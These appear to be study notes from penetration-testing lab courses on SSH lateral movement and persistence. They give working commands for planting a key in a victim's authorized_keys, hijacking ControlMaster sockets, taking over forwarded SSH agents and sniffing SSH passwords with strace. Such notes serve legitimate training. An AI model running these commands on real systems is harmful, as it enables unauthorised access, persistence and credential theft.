

SSH hijacking
SSH jump server
•
• ssh tony.holland@za.tryhackme.com@thmjmp2.za.tryhackme.com
Locating private keys
- ~/.ssh/known_hosts: machines connected to via ssh recently
- HashKnownHosts enabled in /etc/ssh/ssh_config means entries are hashed
- tail ~/.bash_history
SSH persistence
- insert our public key into ~/.ssh/authorized_keys
- echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8= kali@kali" >> /home/linuxvictim/.ssh/authorized_keys
SSH Hijacking with ControlMaster: lateral movement
- • • Goal: move to another machine by hijacking ssh connection of a legitimate user
- ssh control master allow multiple sessions over the same SSH connection
- stealing ssh connection of your user to another machine
- enable ControlMaster in ~/.ssh/config

- controlpersist = accept new connections for a certain amount of time
# ~/.ssh/config
Host *
ControlPath ~/.ssh/controlmaster/%r@%h:%p
ControlMaster auto
ControlPersist 10m
# $mkdir ~/.ssh/controlmaster
# $ chmod 644 ~/.ssh/config
# wait for the user to connect to another server
# we should find a socket file on controlmaster dir
ssh offsec@linuxvictim
## if root
ssh -S /home/$user/.ssh/controlmaster/<oscketfile> offsec@linuxvictim
- exploit
- if cron job is running watch for socket file and then hijack it
- ls -la .ssh/controlmaster
Exploit ssh agent forwarding
- SSH-Agent is a utility that keeps track of a user’s private keys and allows them to be used without having to repeat their passphrases on every connection
- SSH agent forwarding is a mechanism that allows a user to use the SSH-Agent on an intermediate server as if it were their own local agent on their originating machine
- Practical 1
## install ssh key on intermediate and dest machines
kali@kali:~$ ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@controller
kali@kali:~$ ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@linuxvictim
# enable agent forwarding on kali machine and start ssh-agent
echo "ForwardAgent yes" >> ~/.ssh/config
eval `ssh-agent`
## allows the intermediate server to forward key challenges back to the originating client’s SSH agent.
echo "AllowAgentForwarding yes" >> /etc/ssh/sshd_config
## we can add the key to the kali vm if we want to use the key in default location
ssh-add
ssh offsec@controller
# in intermediate
ssh offsec@linuxvictim
- Practical 2 (in case of high privileged users)
# find open ssh connection
pstree -p offsec | grep sshd
cat /proc/$pid/environ
# on the intermediate as root
SSH_AUTH_SOCK=/tmp/xxxxxx/agent.xxxx ssh-add -l
SSH_AUTH_SOCK=/tmp/xxxxxx/agent.xxxx ssh offsec@linuxvictim
Spying on ssh password using strace
sudo strace -f -p $(pgrep -f "/usr/sbin/sshd") -s 128 -o auth.log